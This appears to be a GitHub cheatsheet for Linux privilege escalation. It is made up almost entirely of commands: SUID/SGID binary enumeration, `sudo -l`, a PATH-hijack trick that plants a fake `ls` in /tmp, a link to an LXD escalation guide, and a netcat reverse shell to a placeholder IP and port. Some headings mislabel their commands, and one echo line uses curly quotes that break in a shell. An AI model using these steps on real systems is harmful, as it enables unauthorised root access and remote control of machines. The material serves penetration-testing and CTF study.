 # Cheatsheet linux privilege escalation

## SUID scan

```
find / -perm -u=s -type f 2>/dev/null
```

## Writables directory scan

```
find / -perm -g=s -o -perm -4000 ! -type l -maxdepth 6 -exec ls -ld {} \; 2>/dev/null
```

## Binary with exec rights 

```
find / -type f -perm /6000 -ls 2>/dev/null 
```

## Found specific file

```
binwalk socute.jpg 
```

## Get sudo permissions (Must have the user password)

```
sudo -l
```

## Escalation with path variable (work with suid misconfiguration)

```
cd /tmp
echo “/bin/bash” > ls
chmod 777 ls
echo $PATH
export PATH=/tmp:$PATH
```

## LXD priviliege escalation (Linux Container and Linux Daemon)

https://www.hackingarticles.in/lxd-privilege-escalation/

## Netcat shell redirect

```
nc -e /bin/bash IP PORT
```
